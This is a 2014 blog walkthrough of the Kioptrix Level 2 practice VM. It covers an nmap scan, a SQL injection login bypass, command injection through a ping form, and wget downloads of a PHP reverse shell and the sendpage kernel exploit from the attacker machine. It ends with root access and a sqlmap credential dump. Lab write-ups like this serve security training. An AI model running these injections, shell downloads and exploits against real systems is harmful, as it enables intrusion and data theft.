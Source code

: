 ```yaml
---
layout: post
title: "Pentest lab - Kioptrix Level 2"
date: 2014-06-16 22:47:31 +0300
comments: true
categories: [penetration testing, writeups]
keywords: kioptrix, penetration testing, hacking, security, kioptrix 2, kioptrix 2 walkthrough, kioptrix 2 writeup, kioptrix level 2
description: Penetration testing Kioptrix Level 2
---
```


Today I will walk through exploiting level 2 in the Kioptrix series.

<!-- more -->

Again, I first did a ping sweep with Nmap and determined the IP of the target is 192.168.127.162

Next, the port scan:

``` plain
nmap -A -p1-65535 192.168.127.162

Starting Nmap 6.46 ( http://nmap.org ) at 2014-06-16 22:52 EEST
Nmap scan report for 192.168.127.162
Host is up (0.00036s latency).
Not shown: 65528 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_sshv1: Server supports SSHv1
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            630/udp  status
|_  100024  1            633/tcp  status
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
|_http-methods: No Allow or Public header in OPTIONS response (status code 200)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-10-07T23:10:47+00:00
|_Not valid after:  2010-10-07T23:10:47+00:00
|_ssl-date: 2014-06-16T16:42:47+00:00; -3h09m46s from local time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC2_CBC_128_CBC_WITH_MD5
|_    SSL2_RC4_128_EXPORT40_WITH_MD5
631/tcp  open  ipp      CUPS 1.1
| http-methods: Potentially risky methods: PUT
|_See http://nmap.org/nsedoc/scripts/http-methods.html
|_http-title: 403 Forbidden
633/tcp  open  status   1 (RPC #100024)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            630/udp  status
|_  100024  1            633/tcp  status
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:20:9D:3E (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
```

### From web to shell

Pointing the browser to the target, we can see this remote admin login panel:

{% img center /images/login.png 'admin login' 'login' %}

Immediately thinking SQL injection, I did a quick scan with Owasp Zap and indeed, the login can be bypassed using an injection like the following:

<code>' or '1' = '1' -- </code>

Now we can see an interface where we can ping hosts, which might mean remote code execution:

{% img center /images/ping.png 'ping ip' 'ping' %}

After testing the ping functionality, I ran a quick *uname -a* to confirm that remote code execution is possible:

``` plain
; uname -a

Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
```

The semicolon is used to run multiple commands, so in this case I am closing the ping command and inputting another one after it. I tried poking around, checking if I can read /etc/shadow (which I can't, only /etc/passwd). The commands are ran by the **apache** user. So I'm thinking, it's time for some PHP backdoor fun! I found some on Kali in <code>/usr/share/webshells/php</code>

First, I'm going to copy the reverse PHP shell to my home directory and rename it:

``` plain
cp php-reverse-shell.php ~/shell.php
```

Let's see the description:

> This script will make an outbound TCP connection to a hardcoded IP and port.
> The recipient will be given a shell running as the current user (apache normally).

Next I looked at the Php code, and I need to change the IP and port. The IP is the address of the attacker machine, and for the port I just threw 80 in there, since an outbound connection to port 80 is guaranteed to be allowed (if there was a firewall in place).

With that done, the next step is to serve the shell on my machine and use the web interface to download it to the target host.

On my machine:

``` plain
nc -v -l -p 80 < shell.php
```

On the web interface:

``` plain
; wget 192.168.127.159:80 -O /tmp/puppies.php 

; ls /tmp

puppies.php
```

Now listen on my machine for the incoming connection:

``` plain
nc -v -l -p 80 
```

And on the web interface, execute the shell:

``` plain
; php /tmp/puppies.php
```

And we have a shell!

``` plain
nc: connect to 192.168.127.159 80 from 192.168.127.162 (192.168.127.162) 32772 [32772]
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 athlon i386 GNU/Linux
 13:15:37 up  2:21,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
```

It's time for privilege escalation! I will use the sendpage exploit:

``` plain
cp /usr/share/exploitdb/platforms/linux/local/9545.c ~/sendpage.c
nc -vv -l -p 5555 < sendpage.c
```

And from the shell:

``` plain
sh-3.00# wget 192.168.127.159 -O /tmp/sendpage.c
sh-3.00# cd /tmp
sh-3.00# gcc -o sendpage sendpage.c
sh-3.00# chmod a+x sendpage
sh-3.00# ./sendpage
sh: no job control in this shell
sh-3.00# whoami
root
```

### Breaking into the database

I will now explore a different attack vector, by using **sqlmap** to dump the juicy stuff of the database. 

``` plain
sqlmap -u "http://192.168.127.162/index.php" --dbms=MySQL --dump --data "uname=test&psw=pass" --level=5 --risk=3
Database: webapp
Table: users
[2 entries]
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
| 1  | admin    | 5afac8d85f |
| 2  | john     | 66lajGGbla |
+----+----------+------------+
```

I couldn't connect to the MySQL database though, so didn't find a use for these credentials.

I also tried an exploit against the CUPS daemon, to no avail. So I guess this is it for level 2.

> You have an unusual magnetic personality.  Don't walk too close to
> metal objects which are not fastened down.



